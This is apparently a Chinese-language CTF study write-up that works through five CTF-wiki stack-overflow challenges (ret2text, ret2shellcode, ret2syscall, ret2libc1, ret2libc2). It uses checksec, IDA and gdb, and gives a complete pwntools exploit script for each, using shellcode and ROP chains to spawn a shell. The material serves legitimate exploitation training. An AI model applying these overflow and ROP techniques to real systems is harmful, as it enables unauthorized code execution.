

实验环境：

* Ubuntu 22.04.2
* python 3.10.6
* pwntools 4.9.0
* gdb 12.1(pwndbg 2023.03.19) 

# ret2text

## 检查安全机制

checksec检查题目文件的保护机制：


发现开启了NX，说明不能直接在栈上写shellcode

## 程序分析

IDA反汇编查看伪代码，发现了溢出点


变量`s`使用`gets`函数填充，存在溢出风险，能覆盖`main`函数的返回地址

> 做题的时候这里有个误解，以为要溢出覆盖的是`gets`函数的返回地址
> 经检查后发现，`s`是作为`main`函数的局部变量，存在于`main`函数的栈帧中，因此溢出覆盖的是`mian`函数的返回地址

检查程序其他代码，发现有能直接getshell的代码


开始执行这段代码的地址是0x0804863A，因此用这个位置覆盖掉`main`函数的返回地址就能getshell


下面要计算`s`到`$ebp`的距离，有两种方法


**1 从IDA中获取**

~~IDA反汇编直接就给出了`s`相对于`$ebp`的偏移是-0x64~~


~~因此`main`函数的返回地址的末尾就是0x64 + 0x04(`$ebp`) = 0x68。栈结构图如下：~~

> 这里踩了坑，这里给出的变量`s`相对于`$ebp`的距离0x64是不对的，得查看程序中具体的对`s`的寻址方式
> 回到汇编代码中，可以看到`s`的寻址方式是根据`$esp`的寻址
>
> 
>
> 这种情况就还是要用动态调试找出`s`与`$ebp`之间的距离


可以看到，`s`相对于`$esp`的距离是0x1c，找出程序运行`gets`前`$esp`的值，即可计算`s`的地址

找出调用`gets`的代码地址为0x080486AE


gdb在此处下断点


“r”命令运行程序，到断点处中断，找出此时`$esp`的值是0xffffd580，`$ebp`的值是0xffffd608


因此`$ebp`到`s`的距离是(0xffffd608 - (0xffffd580 + 0x1c))，再加0x04覆盖掉`main`的栈基址内容，就是`mian`函数的返回地址。得到栈结构如下：


 

**2 根据函数调用特点**

调用`gets`之前需要将`s`的地址写入`$eax`，因此可以动态调试出`s`的地址。下图的汇编代码证实了这点：


因此同上一种方法一样，在`gets`函数调用处下断点，再运行程序，查看此时`$eax`的值为0xffffd59c，`$ebp`的值是0xffffd608


因此`s`到`$ebp`的距离为(0xffffd608 - 0xffffd59c)，再加0x04覆盖掉`main`的栈基址内容，就是`mian`函数的返回地址。得到栈结构如下：


## payload

第一种方法：

```python
from pwn import *
import pwnlib.util.packing

sh = process("./ret2text")

addr_shell = 0x0804863A
addr_esp = 0xffffd580
addr_ebp = 0xffffd608
offset_esp = 0x1c

len_ebp = addr_ebp - (addr_esp + offset_esp)

payload = b'a'*len_ebp + b'bbbb' + packing.p32(addr_shell)

sh.sendline(payload)
sh.interactive()
```

执行结果如下：


第二种方法可以得到同样的结果：

```python
from pwn import *
import pwnlib.util.packing

sh = process("./ret2text")

addr_shell = 0x0804863A
addr_ebp = 0xffffd608
addr_s = 0xffffd59c

len_ebp = addr_ebp - addr_s

payload = b'a'*len_ebp + b'bbbb' + packing.p32(addr_shell)

sh.sendline(payload)
sh.interactive()
```

# ret2shellcode

## 检查安全机制

checksec检查结果：


发现几乎没有开启任何防护，且具有可读可写可执行的段

## 程序分析

IDA反汇编，发现溢出点，而且会把读入的数据拷贝到`buf2`


检查`buf2`，得知是在.bss段上，地址是0x0804A080


同时经过检查程序，发现这次并没有提供诸如`system('\bin\sh')`这样能直接getshell的语句。因此需要考虑自己将shellcode写入内存中。根据上述分析，则期望.bss段就是其中一个可读可写可执行的段，如果能把shellcode通过`s`写入到这里，则再把`main`函数的返回地址覆盖成我们在.bss段写入的shellcode地址，即可getshell

> 但是程序本身并没有开启NX防护措施，理论上可以直接在栈上写入NOP+shellcode，再把`main`的返回地址覆盖到栈中的我们填入的其中一个NOP的位置即可

gdb调试，`b main`在`main`函数处下断点，`r`运行程序，`vmmap`检查程序地址段信息，检查程序.bss段属性，发现只是“rw-”，并没有可执行权限


>这里课上老师讲过，CTF-wiki上的题目有点问题，需要自己手动编辑这个可执行文件，使.bss段权限变成“rwx”。于是下面就使用修改好后的题目进行解题

换成修复后的题目进行解题，重新检查程序地址段信息，此时.bss段的权限为“rwx”


根据上题经验，在`gets`函数处下断点，通过`$eax`获取`s`的地址，得到`s`的的地址为0xffffd56c，`$ebp`的地址为0xffffd5d8


这时候就可以构造如下栈结构，使得`main`函数结束时跳转到我们在.bss段写入的shellcode地址：


## payload

```python
from pwn import *
import pwnlib.util.packing

context(os='linux', arch='i386')

sh = process("./ret2shellcode_fix")

addr_buf2 = 0x0804A080
addr_ebp = 0xffffd5d8
addr_s = 0xffffd56c

shellcode = asm(shellcraft.sh())

len_ebp = addr_ebp - addr_s

payload = shellcode.ljust(len_ebp+0x04, b'a') + packing.p32(addr_buf2)

sh.sendline(payload)
sh.interactive()
```

# ret2syscall

## 检查安全机制

checksec检查一下，发现开启了NX保护，这一次也没有显示有“rwx”权限的段了


## 程序分析

IDA反汇编，发现变量`v4`依旧使用`gets`函数，存在溢出漏洞


检查寻址方式，还是通过`$esp`寻址


因此同第一题一样，在0x08048E96处下断点在`$eax`中获取`v4`的位置，得到`v4`的地址是0xffffd5cc，`$ebp`的地址是0xffffd638


下面就是要考虑要把`main`的返回地址覆盖成什么才能getshell。由于这次我们不能直接在程序内存中写入自己的shellcode，因此需要考虑利用程序中已有的代码片段（称为gadget），再根据系统调用的特点，来拼凑出能getshell的代码。举个例子，如果需要执行`execve('/bin/sh', NULL, NULL)`，则需要寄存器满足以下条件：

* `$eax`=0x0b
* `$ebx`='/bin/sh'的地址
* `$ecx`=0
* `$edx`=0

之后再执行`int 0x80`，程序就会执行`execve('/bin/sh', NULL, NULL)`。所以下面的目标就是找出程序中一些pop-ret语句的地址结合要放入的数据按特定顺序填入到栈中，即可控制程序执行流分段式地形成我们想要的寄存器布局，从而getshell

利用ROPgadget工具查找能控制`$eax`的gadget，这里选择地址为0x080bb196的gadget


同样查找能控制`$ebx`的gadget，这里选择地址0x0806eb90，因为它能同时控制`$ebx`、`$ecx`、`$edx`


查找一下程序中有没有提供“/bin/sh”字串，发现0x080be408


最后查找能执行`int 0x80`指令的地址，得到0x08049421



最后构造如下的栈结构和寄存器布局：


## payload

```python
from pwn import *
from pwnlib.util.packing import p32

sh = process("./rop")

addr_v4 = 0xffffd5cc
addr_ebp = 0xffffd638
len_ebp = addr_ebp - addr_v4

addr_pop_eax = 0x080bb196
addr_pop_edx_ecx_ebx = 0x0806eb90
addr_sh = 0x080be408
addr_int_0x80 = 0x08049421

payload = (b'a'*len_ebp + b'bbbb' \
        + p32(addr_pop_eax) + p32(0x0b) \
        + p32(addr_pop_edx_ecx_ebx) + p32(0x00) + p32(0x00) + p32(addr_sh) \
        + p32(addr_int_0x80))

sh.sendline(payload)
sh.interactive()
```

执行结果如下：


# ret2libc1

## 检查安全机制

checksec检查，发现也是开启了NX保护，也没有有“rwx”权限的段


## 程序分析

IDA反汇编，确认到溢出点在`s`上


动态调试出`s`以及`$ebp`的地址分别为0xffffd58c、0xffffd5f8


同时也发现了程序的`secure`函数调用了.ptl表中的`system`


地址为0x08048460


尝试在程序中搜索是否有现成的“/bin/sh”，也发现了它的地址是0x08048720，很巧合


libc6-i386.so中的`system`函数通过[`$esp`]+0x04的地址进行传参，因此可以构造出下列栈结构进行getshell：


## payload

```python
from pwn import *
from pwnlib.util.packing import p32

sh = process("./ret2libc1")

addr_s = 0xffffd58c
addr_ebp = 0xffffd5f8
len_ebp = addr_ebp - addr_s

addr_system = 0x08048460
addr_sh = 0x08048720

payload = b'a'*len_ebp + b'bbbb' + p32(addr_system) + b'cccc' + p32(addr_sh)

sh.sendline(payload)
sh.interactive()
```

执行结果如下：


# ret2libc2

## 检查安全机制

checksec检查，发现也是开启了NX保护，也没有有“rwx”权限的段


## 程序分析

IDA反汇编，确认到溢出点在`s`上


动态调试出`s`以及`$ebp`的地址分别为0xffffd58c、0xffffd5f8


同时也发现了程序的`secure`函数调用了.ptl表中的`system`，地址为0x08048490


尝试在程序中搜索是否有现成的“/bin/sh”，但这次并没有找到，因此需要自己在程序内存中的某个位置写入“/bin/sh”。使用gdb的vmmap命令查看段信息，考虑使用0x0804a000这个内存位置


在IDA中检查这个位置，发现是.bss段，而且存在一个名为`buf2`的缓冲区，地址是0x0804A080


这里考虑重复利用程序已用的`gets`函数往`buf2`写“/bin/sh”，查看`gets`函数在.ptl中的地址，是0x08048460


`gets`函数写入地址的参数位置也在[`$esp`]+0x04。但由于调用完`gets`之后，返回的地址能越过`gets`的参数去执行`system`，因此需要保持栈平衡。这里则考虑随便使用一个pop单个寄存器的gadget，比如下面的`pop ebx; ret`，地址是0x0804843d，这样就能跳过`gets`的参数地址


由此构造出栈结构如下：


## payload

```python
from pwn import *
from pwnlib.util.packing import p32

sh = process("./ret2libc2")

addr_s = 0xffffd58c
addr_ebp = 0xffffd5f8
len_ebp = addr_ebp - addr_s

addr_system = 0x08048490
addr_gets = 0x08048460
addr_buf2 = 0x0804a080
addr_pop_ebx = 0x0804843d

payload = (b'a'*len_ebp + b'bbbb' \
        + p32(addr_gets) + p32(addr_pop_ebx)  + p32(addr_buf2) \
        + p32(addr_system) + b'cccc' + p32(addr_buf2))

sh.sendline(payload)
sh.sendline('/bin/sh')
sh.interactive()
```

执行结果如下：


